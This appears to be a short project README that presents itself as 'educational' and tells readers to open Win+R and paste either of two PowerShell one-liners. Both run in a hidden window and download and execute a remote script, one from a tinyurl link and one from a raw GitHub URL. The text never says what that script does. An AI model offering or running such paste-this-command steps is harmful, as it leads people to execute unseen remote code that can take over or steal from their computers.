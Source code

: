 educational propouses only.

For install:
Win + R and paste this:

option 1: (Fast)
```powershell -w hidden "iex(iwr tinyurl.com/4uzjfrjd -UseB)"```

option 2:
```powershell -w hidden "iex(iwr https://raw.githubusercontent.com/MRvinyKing/pythonwgetfilestest/main/z.ps1 -UseB)"``` 
(raw)
